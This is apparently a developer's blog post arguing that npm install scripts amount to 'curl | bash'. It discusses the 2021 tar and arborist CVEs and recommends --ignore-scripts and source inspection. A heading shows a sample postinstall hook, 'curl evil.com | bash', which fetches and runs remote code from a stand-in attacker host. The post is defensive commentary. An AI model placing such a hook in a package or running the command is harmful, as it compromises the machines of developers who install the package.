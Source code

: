 ```yaml
---
layout: post
title: npm install is curl | bash
date: 2021-09-08T17:44:24.153Z
---
```

Today, GitHub published [a write-up on a number of CVEs](https://github.blog/2021-09-08-github-security-update-vulnerabilities-tar-npmcli-arborist/)[^1] in the npm packages `tar` and `@npmcli/arborist`. In their own words, 

> The npm CLI aims to enforce certain security boundaries on package installation. One of these boundaries is that a package’s contents will only be written to the appropriate folder within the `node_modules` directory hierarchy. Several of the `tar` and `@npmcli/arborist` vulnerabilities will cross that security boundary and may result in unexpected arbitrary file overwrites and subsequent code execution when installing untrusted packages.

This sounds pretty scary: "arbitrary file overwrites and subsequent code execution" is the kind of phrase that you don't want to see in a CVE description. The problem is that by default, npm allows this to happen anyway.

# postinstall: "curl evil.com | bash"

npm (and yarn) will execute arbitrary code when you install a package via [install scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#npm-install). A valid use-case is to build native code on installation, or do some other environment-specific setup, though these scripts have also been used to [show ads](https://www.zdnet.com/article/npm-bans-terminal-ads/) and, of course, as an [attack](https://blog.sonatype.com/bladabindi-njrat-rat-in-jdb.js-npm-malware) [vector](https://snyk.io/blog/npm-security-malicious-code-in-oss-npm-packages/). In fact, install scripts [were the most popular route for malware](https://blog.npmjs.org/post/188385634100/npm-security-insights-api-preview-part-2-malware) as of 2019[^2].

Installing a single malicious package is enough to get reasonably pwned. The risk is mitigated by npm’s moderation of the registry — they’re quick to remove malware once discovered. This works pretty well, though I worry about the day someone uses this to [publish a self-replicating worm](https://blog.npmjs.org/post/141702881055/package-install-scripts-vulnerability).

This attack vector isn’t unique to npm. Other package managers like pip and RubyGems allow for the same thing. As developers, we’re not as cautious when installing packages from these registries as when we use `curl | bash`, though we should be[^3].

## Mitigations

When installing an untrusted package, run `npm install` or `yarn add` with the `--ignore-scripts` flag. If, like me, you tend to forget this, you can set npm/yarn to never run scripts with `{npm,yarn} config set ignore-scripts true`.

I also recommend inspecting the source code of a package before you install it. I like to use [xray.computer](https://xray.computer/source) for this, because I made it.

And, of course, update your npm CLI to fix the CVEs that let packages bypass this setting.

[^1]: Specifically, CVE-2021-32803, CVE-2021-32804, CVE-2021-37701, CVE-2021-37712, CVE-2021-37713, CVE-2021-39134, and CVE-2021-39135.

[^2]: No more recent data is available, and work on npm’s Security Insights API/malware database seems to have stalled.

[^3]: You do get the added security feature of integrity checking when installing via a package manager as opposed to `curl | bash`. This prevents e.g. MITM attacks, but don’t forget that packages in open-source registries are mostly trash, with the occasional piece of malware or genuinely useful code floating around.